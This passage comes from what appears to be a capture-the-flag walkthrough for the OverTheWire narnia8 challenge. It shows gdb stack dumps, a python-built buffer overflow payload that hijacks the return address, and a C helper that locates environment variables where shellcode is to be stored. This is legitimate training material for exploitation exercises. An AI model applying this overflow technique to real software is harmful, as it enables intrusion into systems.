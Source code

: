 >
Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20x $esp
0xffffd3a0:	0x08048580	0xffffd3b8	0x00000014	0xf7e3e1e3
0xffffd3b0:	0x00000000	0x00ca0000	0x41414141	0x41414141
0xffffd3c0:	0x41414141	0x41414141	0x41414141	0xffff4952
0xffffd3d0:	0x00000002	0xffffd494	0xffffd3f8	0x080484cd
0xffffd3e0:	0xffffd627	0xf7ffd000	0x080484fb	0xf7fb3000
(gdb) x/20x 0xffff4952 
0xffff4952:	0x00000000	0x00000000	0x00000000	0x00000000
0xffff4962:	0x00000000	0x00000000	0x00000000	0x00000000
0xffff4972:	0x00000000	0x00000000	0x00000000	0x00000000
0xffff4982:	0x00000000	0x00000000	0x00000000	0x00000000
0xffff4992:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) x/20x 0xffffd627 
0xffffd627:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd637:	0x41414141	0x52525252	0x41414141	0x41414141
0xffffd647:	0x41414141	0x52525252	0x47445800	0x4e54565f
0xffffd657:	0x00373d52	0x5f474458	0x53534553	0x5f4e4f49
0xffffd667:	0x313d4449	0x48535300	0x4547415f	0x505f544e
>```
>
> Well, I was expecting the address ```0xffff4952``` to hold our data, but after some looking I was able to locate the ```A``` at ```0xffffd627```.  Let's go back and see if we can overwrite that address with the updated ```argv[1]``` address.
>
>```
(gdb) run $(python -c 'print "A"*20+"\x27\xd6\xff\xff"+"A"*12+"RRRR"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /root/OverTheWire/narnia/narnia8 $(python -c 'print "A"*20+"\x27\xd6\xff\xff"+"A"*12+"RRRR"')
>
Breakpoint 1, 0x080484a7 in func ()
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAA'���AAAAAAAAAAAARRRR'���
>
Program received signal SIGSEGV, Segmentation fault.
0x52525252 in ?? ()
>```
>
> Now we're getting somewhere.  We can finally see our full output. This means that overwriting that address successfully kept us pointing to the input and we ended up get our segmentation fault on the return address.  The only problem is that I don't think we have enough room to put our shellcode into the input.  We can turn back to narnia1 where we used an environment variable to store our shellcode, but we'll have to find the address for it somehow.  After some looking around I found a simple C program that will locate the address of environment variables by name.
>
>```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
>
int main(int argc, char **argv) {
    char *ptr;
    ptr = getenv(argv[1]);
    if( ptr == NULL )
        printf("%s not found\n", argv[1]);
    else printf("%s found at %08x\n", argv[1], (unsigned int)ptr);
    return 0;
}
>```